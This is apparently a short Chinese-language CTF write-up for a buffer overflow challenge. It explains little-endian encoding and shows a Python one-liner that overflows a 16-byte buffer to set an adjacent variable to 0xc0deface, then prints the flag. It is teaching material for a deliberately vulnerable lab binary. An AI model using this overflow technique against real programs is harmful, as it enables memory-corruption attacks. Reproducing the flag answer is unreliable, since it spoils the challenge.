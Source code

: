 # Overflow 1
給你一個有buffer overflow問題的程式，並且給你stack diagram。
 * x86是little endian：`0xc0deface`存成memory中，長的像這樣：`\xce\xfa\xde\xc0`
 * 只要填到讓buf溢出到secret的剛剛好等於 `\xce\xfa\xde\xc0` 即可
```
$ ./overflow1 $(python -c 'print "A"*16 + "\xce\xfa\xde\xc0"')
$ ls
flag.txt    Makefile    overflow1 overflow1.c
$ cat flag.txt
ooh_so_critical
```
